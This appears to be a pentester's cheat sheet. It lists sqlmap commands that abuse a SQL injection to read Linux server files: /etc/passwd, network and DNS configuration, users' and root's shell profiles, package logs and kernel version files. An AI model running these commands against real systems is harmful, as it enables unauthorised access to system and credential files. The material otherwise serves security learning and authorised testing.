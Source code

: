 # Linux

Search Tag(s): #webapp-pentesting #server-side-attack #sql-injection #blind-sql-injection #enumeration-and-discovery #scenarios #sqlmap

## Conditions

> [!INFO]
> The DB user must have **FILE** and **SELECT** privileges perform with the flags `--privileges -U CU`.
> > [!NOTE] Not all files are readable unless the current user is `root@<IP>` (e.g. `root@localhost`). You'll notice that you can't fetch SSH credentials which is normal due to security reasons.

## Automated

Enumerating user accounts

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/passwd"

$ sqlmap -u "<URL>" --random-agent --sql-query="SELECT LOAD_FILE('/etc/passwd')"
```

Enumerate user groups

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/group"
```

Local IPv4 address

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/network/interfaces"

$ sqlmap -u "<URL>" --random-agent --file-read="/etc/sysconfig/network"

$ sqlmap -u "<URL>" --random-agent --file-read="/etc/networks"
```

DNS resolve and nameserver IPs

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/resolv.conf"

$ sqlmap -u "<URL>" --random-agent --file-read="/etc/hosts"
```

Environment variables may contain **sensitive information**. You never know that sometimes the sysadmins can be lazy sometimes.

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/profile"

$ sqlmap -u "<URL>" --random-agent --file-read="/etc/bash.bashrc"

$ sqlmap -u "<URL>" --random-agent --file-read="/home/<username>/.bash_profile"

$ sqlmap -u "<URL>" --random-agent --file-read="/root/.bash_profile"

$ sqlmap -u "<URL>" --random-agent --file-read="/home/<username>/.bashrc"

$ sqlmap -u "<URL>" --random-agent --file-read="/root/.bashrc"
```

Enumerate installed packages that will give you an idea of what services are installed.

```
$ sqlmap -u "<URL>" --random-agent --file-read="/var/log/dpkg.log"

$ sqlmap -u "<URL>" --random-agent --file-read="/var/log/yum.log"
```

Enumerate Linux kernel

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/lsb-release"

$ sqlmap -u "<URL>" --random-agent --file-read="/etc/os-release"

$ sqlmap -u "<URL>" --random-agent --file-read="/proc/version"
```